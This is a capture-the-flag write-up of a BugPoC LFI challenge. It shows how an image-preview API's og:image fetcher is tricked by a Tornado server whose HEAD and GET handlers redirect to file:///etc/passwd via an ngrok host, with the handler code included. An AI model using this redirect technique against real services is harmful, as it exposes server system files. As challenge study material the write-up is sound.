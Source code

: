 ```yaml
---
layout: post
title:  "LFI Challenge Writeup"
date:   2020-10-06 11:25:10 +0545
author: machinexa
image: /writeups/assets/images/lfichallenge.jpeg
category: Writeups
---
```

<br>

## Description
Browsing twitter i saw a new challenge from BugPoC which was about LFI I immediately started solving it. The image said to visit [http://social.buggywebsite.com/](https://social.buggywebsite.com/) to start the challenge. Also, since it was server sided bug, i got energized to solve. 

### Starting point
First of I had to find sink where i could execute LFI. I tried typing and it generated the option to share. Looking at the source code more, i find a compressed javascript file, it showed various functinons. After analyzing the code, I found out only request starting with `https` made an xhr request and to https://api.buggywebsite.com. It send json data with url and requestTime parameter.
```js
function processUrl(e) {
    requestTime = Date.now(), url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText), populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText), document.getElementById("website-preview").style.display = "none")
    }, t.open("POST", url, !0), t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"), t.setRequestHeader("Accept", "application/json"), data = {
        url: e,
        requestTime: requestTime
    }, t.send(JSON.stringify(data))
```

### Developing client
I had to write a client that interacts with API with those parameters filled with value. First, i found `get_second()` (a function to get current second) in stackoverflow answer. Then for url i used input prompt on while loop. This is what a successful response looks like, and it also returns image in base64 encoded form.   

![Response](/writeups/assets/images/lfichallenge_response.png)

I used json module to parse the data then the content of image is dumped to file. Here's my source code [Exploit.py](https://gist.github.com/machinexa2/118a7983b407cca55a6a1801a10acb7c); Now, i tried different stuffs, ideas such as SSRF but it wasnt working. I later realized it was using urllib3 to make requests which could never result in LFI but only SSRF. Also, SSRF was also not possible as it was not showing response and was probably blocked. Also, since the API wasnt vulnerable i looked for other endpoints etc but nothing seemed to work. Playing with it for some amount of time releaved something that i missed before.  

### Open Graph metadata
It was parsing the `<meta>` tags and reflecting them. OG is short for Open Graph which allows web page to become a rich object in social graph. It had lot of tags and some tags that were being reflected were `og:description`, `og:type`, `og:image` and `og.url`. Also, description, type and url didnt have much effect on the server. However, image was again fetching resources and used urllib3. Trying for SSRF again failed me and wasnt solution of challenge so i moved on.

Looking at different perspective, i found the following details:
* It fetches similar to this `^https://.*\.(jpg|svg|png)`
* Serving other file with extensions fails HEAD test, parser checks by mimetype which can be bypassed
* Seriving `.jpg` file with jpg magic header, base64 encodes the returned image response   

![Details](/writeups/assets/images/lfichallenge_details.png)

I tried putting html, php and other code in jpeg mimetype file but it didnt work. I also tried using exif tags for code execution which didnt work too. I was quite lost at this moments and those weird hints from BugPoC made me more mad.  

### Hitting the jackpot
Since, HEAD request was used to verify whether its image or not, I coded in tornado to create a server. I set content-type and other headers of image, and issued redirection to /etc/passwd at second get request which should hopefully get us /etc/passwd. A small snippet shows how I coded it:   
```python
class FileHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'http://fa0cf2d0f26e.ngrok.io//asset/original.jpg')
    def get(self):
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'file:///etc/motd')
        self.write("<p>You should be redirected automatically to target URL: <a href='file:///etc/passwd'>file:///etc/passwd</a>")
        self.redirect("file:///etc/motd")

class IndexHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Cache-Control', 'public, max-age=0')
        self.set_header('Pragma', 'no-cache')
        self.redirect('/asset/original.jpg')
    def get(self):
        with open('index.html', 'rb') as f:
            self.write(f.read())
```
<br>
Now, lets host the malicious server, and get that file. Also, i rechanged lot of my exploit.py and other files to make it as easy to get the file. I hit the jackpot got the file!

![Pwned](/writeups/assets/images/lfichallenge_pwned.png)

## Takeaway 

* Always try harder, if i left when i failed SSRF, I couldn't have solved the challenge 
* Javascript files are gold mine. Do always read them and try to find sensitive endpoints.
* Coding is essential to exploit development. Make sure you master at least a single programming language.

Some hints from BugPoC helped me but last ones were absurb and meaningless. Also, I necessarily didnt have to code server and client. For server i could have used BugPoC mock endpoint and for client i could have user either burp or browser thought for testing purposes, client is best!
